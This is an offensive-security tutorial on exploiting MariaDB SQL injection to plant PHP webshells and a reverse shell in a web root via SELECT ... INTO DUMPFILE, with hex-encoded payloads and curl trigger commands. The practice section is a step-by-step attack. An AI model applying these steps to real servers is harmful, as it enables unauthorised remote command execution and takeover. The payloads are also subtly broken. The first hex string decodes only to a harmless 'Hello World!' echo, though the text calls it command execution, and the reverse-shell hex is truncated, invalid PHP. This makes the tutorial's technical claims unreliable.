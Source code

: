 ```yaml
---
title: Deploying Webshell via DUMPFILE Function in MariaDB
description: Learn to exploit MariaDB SQL Injection to deploy webshells using DUMPFILE
  for command execution.
keywords:
- webshell
- DUMPFILE
- MariaDB
- SQL Injection
- command execution
- hexadecimal encoding
- PHP reverse shell
---
```


# WEBSHELL - DUMPFILE

## Context

In this article, you will learn how to leverage MariaDB SQL Injection to execute commands through a webshell using the DUMPFILE function. Understanding this technique assumes prior knowledge of SQL queries, file system permissions, hexadecimal encoding, and MariaDB command execution methods.

## Theory

### DUMPFILE Functionality in MariaDB

The DUMPFILE command in MariaDB allows writing of binary data directly to a specified file. In an attack context, this can be exploited via SQL Injection vulnerabilities to write arbitrary files to a system. When you have write permissions, you can use DUMPFILE to drop a crafted payload into a web-accessible directory, enabling further exploitation.

### Hexadecimal Encoding for Payloads

Hexadecimal encoding is a technique used to represent binary data in a string format that can be easily used in SQL queries. This representation is crucial when injecting binary data, such as a webshell, because it ensures that the data can be transmitted and stored without corruption.

### Webshell Deployment via SQL Injection

In deploying a webshell through SQL injection, the attacker aims to write a malicious PHP script into a web-accessible directory. This requires having adequate write permissions in the directory where the file is intended to be saved. Upon successful deployment, this webshell can be accessed remotely to execute arbitrary commands.

## Practice

### Webshell Deployment via DUMPFILE

In this exercise, we will deploy a simple PHP webshell in a web-accessible directory using the DUMPFILE technique.

- **Inject the webshell:**

    ```bash
    SELECT 0x3C3F706870206563686F202748656C6C6F20576F726C6421273B3F3E INTO DUMPFILE '/var/www/html/shell.php';
    ```

    This command injects a simple PHP webshell that outputs "Hello World!" when accessed.

- **Access the deployed webshell:**

    ```bash
    curl http://target.com/shell.php
    ```

    Accessing the URL triggers the PHP code, resulting in command execution capabilities through the webshell.

### Hex Encoding a Complex Payload

In cases where a more complex payload, such as a PHP reverse shell, is required, hex encoding will be utilized.

- **Convert PHP reverse shell script to hex:**

    Use an encoding tool to convert your script into a hexadecimal format.

- **Inject the reverse shell payload:**

    ```bash
    SELECT 0x3C3F706870206578656320247368656C6C3D272F62696E2F7368202D6920272E2E2E INTO DUMPFILE '/var/www/html/reverse.php';
    ```

    This writes the encoded reverse shell to the web directory.

- **Trigger the reverse shell:**

    ```bash
    curl http://target.com/reverse.php
    ```

    Accessing the URL executes the payload, connecting back to your machine to establish a remote shell.

## Tools

- **curl**
- **hex_encoder**